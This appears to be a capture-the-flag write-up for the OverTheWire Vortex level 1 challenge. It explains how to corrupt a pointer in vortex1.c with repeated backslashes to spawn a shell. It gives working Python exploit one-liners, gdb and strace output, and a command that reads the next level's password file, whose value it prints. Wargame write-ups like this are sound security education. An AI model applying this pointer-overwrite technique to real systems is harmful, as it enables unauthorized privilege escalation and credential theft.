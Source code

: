 vortex1.c is included, read the comments  

we need to find a way so that ptr = 0xca<--anyhex-->  

we try appending letters, it doesnt work (neither stack overflow occurs), so we try decreasing...  
using gdb we find ptr address:  
0x0804861c <+92>:    mov    eax,DWORD PTR [esp+0x14]	#this is ptr  

we see that ptr = 0xffffd62b (at srart)  
find where ptr is located: 0xffffd524  
ok, we cant get to address 0xca......, so we'll go back to the address of ptr, and overwrite it...  
ffffd62b – ffffd524 = 0x107 = 263  
we need to write '\\' 263 times followed by "\xca"
python -c 'print "\\"*263 + "\xca\xdf\xc0\x00"' | ./vortex1
we try that, nothing happens, so tinker with the number 263:  
python -c 'print "\\"*261 + "\xca\xdf\xc0\x00"' | ./vortex1  
this time we see the program exits, interesting...  
using strace we see:  
geteuid32()                             = 5001
geteuid32()                             = 5001
geteuid32()                             = 5001
setresuid32(5001, 5001, 5001)           = 0
execve("/bin/sh", ["sh"], [/* 30 vars */]) = 0
indeed we went to shell, but exited immedietly...  
so lets try inserting a bash command:  
(python -c 'print "\\"*261 + "\xca\xdf\xc0\x00"'; echo "cat /etc/vortex_pass/vortex2") | ./vortex1

we get:  
23anbT\rE



